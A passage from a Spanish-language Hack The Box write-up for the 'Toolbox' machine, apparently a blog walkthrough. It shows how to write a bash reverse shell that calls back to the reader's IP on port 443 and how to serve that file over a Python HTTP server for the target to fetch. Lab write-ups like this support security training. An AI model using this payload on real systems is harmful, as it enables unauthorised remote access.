 <img src="/assets/images/htb-writeup-toolbox/Captura12.png">
</p>

Analizando un poco, sabemos que la máquina está usando **Windows y Linux** a la vez utilizando un **Docker**, lo que podemos hacer es conectarnos usando un archivo en **Bash** que llame a una **cmd** de la máquina víctima hacia la nuestra a traves de la petición que hacemos en **BurpSuite**, que recordemos, puede ejecutar comandos. 

* Crea un archivo que tenga una **Reverse Shell** en **Bash**:
```bash
nano pwned
#!/bin/bash
bash -i >& /dev/tcp/Tu_IP/443 0>&1
```

* Abre un servidor en **Python** en donde tengas este archivo:
```bash
python3 -m http.server 80                                     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
